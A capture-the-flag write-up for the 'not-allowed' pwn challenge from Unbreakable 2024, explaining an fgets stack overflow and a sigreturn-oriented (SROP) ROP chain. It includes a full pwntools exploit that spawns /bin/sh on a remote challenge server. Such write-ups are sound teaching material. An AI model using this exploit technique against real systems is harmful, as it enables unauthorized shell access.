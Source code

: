 ```yaml
---
title: not-allowed
date: 2024-04-07T14:23:28+03:00
description: Writeup for not-allowed [Unbreakable 2024]
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Silence speaks louder than words.

## Intuition

We receive a simple binary with two functions: *main* and *wish*. The main function sets up stream buffering with *setvbufs* and then does a call to fgets that is obviously overflowing the destination buffer.

```c
void main(void)
{
  char local_28 [32];
  
  setup(stdin,0,2,0);
  setup(stdout,0,2,0);
  setup(stderr,0,2,0);
  fgets(local_28,600,stdin);
  return;
}
```
Since the stack is NX, our remaining option is to ROP. Sadly we don't have a lot of gadgets, but we do notice a few important ones when dumping with ROPgadget:

```
0x00000000004011ce : inc al ; ret
0x0000000000401156 : pop rdi ; ret
0x000000000040101a : ret
0x0000000000401162 : sub eax, eax ; ret
0x00000000004011cc : syscall
```

We have control over RAX, RDI and we also have a syscall gadget. Sadly however, the imported libc functions do not let us print anything! So we cannot leak libc and jump to *system* or *execve*. We can, however, do SROP! We can craft a signal return frame on the stack and then trigger it using a sigreturn syscall. But how do we get an address for ``/bin/sh``? The *wish* function has everything prepared for us:

```c
void wish(void)
{
  string[0] = 'H';
  string[1] = 'e';
  string[2] = 'r';
  string[3] = 'e';
  string[4] = ' ';
  string[5] = 'y';
  string[6] = 'o';
  string[7] = 'u';
  string[8] = ' ';
  string[9] = 'g';
  string[10] = 'o';
  string[11] = ':';
  string[12] = ' ';
  string[13] = '/';
  string[14] = 'b';
  string[15] = 'i';
  string[16] = 'n';
  string[17] = '/';
  string[18] = 's';
  string[19] = 'h';
  string[20] = '\0';
  return;
}
```
We simply need to get the address corresponding to ``string[13]`` and call this function before we use the sigreturn syscall. Binary is non-PIE so getting the addresses to all those gadgets and objects is trivial.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./not-allowed")
target = remote("34.141.109.85", 31555)

wish_addr = 0x00401175
sh_addr = 0x40407d
syscall_gadget = 0x4011cc
inc_al_gadget = p64(0x00000000004011ce)
zero_rax = p64(0x0000000000401161)

# frame that will call execve(/bin/sh)
frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

# 1. call wish
# 2. zero out rax w/ sub eax, eax
# 3. increment RAX to 15 (sigreturn)
# 4. syscall sigreturn
# 5. ???
# 6. profit
payload = b"a" * 0x28 + p64(wish_addr) + zero_rax + inc_al_gadget * 15 + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.interactive()
```

